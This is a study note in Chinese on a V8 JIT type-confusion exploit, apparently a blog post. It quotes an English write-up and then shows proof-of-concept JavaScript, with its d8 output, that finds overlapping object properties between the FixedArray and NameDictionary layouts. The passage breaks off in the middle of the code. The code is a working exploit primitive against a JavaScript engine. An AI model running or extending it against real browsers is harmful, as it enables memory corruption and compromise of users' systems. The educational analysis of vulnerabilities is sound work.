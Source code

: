 ```Javascript
  }
}
print("[+] Finding Overlapping Properties");
findOverlappingProperties();
```
执行之后结果为
```bash
C:\dev\v8\v8\out\x64.debug>d8 C:\Users\User\Desktop\poc.js
[+] Finding Overlapping Properties
,-1,-2,-3,-4,-5,-6,-7,-8,-9,-10,-11,-12,-13,-14,-15,-16,-17,-18,-19,-20,-21,-22,-23,-24,-25,-26,-27,-28,-29,-30,-31
,32,0,64,33,0,,,,p13,-13,3824,,,,p17,-17,4848,inline,1234,448,,,,p29,-29,7920,,,,p19,-19
```
> Our type-confusion works and we are able to leak data from the dictionary. From the output, we can see that we have a few overlapping properties, such as p10 overlapping with p13 (note the negative values).

文章一直说p10和p13重叠了一开始没看懂，后面明白了，上面-1~-31是未优化之前的输出结果，下面32，0这些是按照转为字典之后逐行输出的，因此有些混乱，此处-13位于p10的位置，-13又是p13的值，因此说p10和p13重叠

上面的代码优化一下
```js
// Function that creates an object with one in-line and 32 out-of-line properties
function makeObj() {
  let obj = {inline: 1234};
  for (let i = 1; i < 32; i++) {
      Object.defineProperty(obj, 'p' + i, {
          writable: true,
          value: -i
      });
  }
  return obj;
}
// Function that finds a pair of properties where p1 is stored at the same offset
// in the FixedArray as p2 in the NameDictionary
let p1, p2;
function findOverlappingProperties() {
  // Create an array of all 32 property names such as p1..p32
  let pNames = [];
  for (let i = 0; i < 32; i++) {
      pNames[i] = 'p' + i;
  }
  // Create eval of our vuln function that will generate code during runtime
  eval(`
  function vuln(obj) {
    // Access Property inline of obj, forcing a CheckMap operation
    obj.inline;
    // Force a Map Transition via our side-effect
    this.Object.create(obj);
    // Trigger our type-confusion by accessing out-of-bound properties
    ${pNames.map((p) => `let ${p} = obj.${p};`).join('\n')}
    return [${pNames.join(', ')}];
  }
`)
  // JIT code to trigger vuln
  for (let i = 0; i < 10000; i++) {
      // Create Object and pass it to Vuln function
      let res = vuln(makeObj());
      // Look for overlapping properties in results
      for (let i = 1; i < res.length; i++) {
          // If i is not the same value, and res[i] is between -32 and 0, it overlaps
          if (i !== -res[i] && res[i] < 0 && res[i] > -32) {
              [p1, p2] = [i, -res[i]];
              return;
```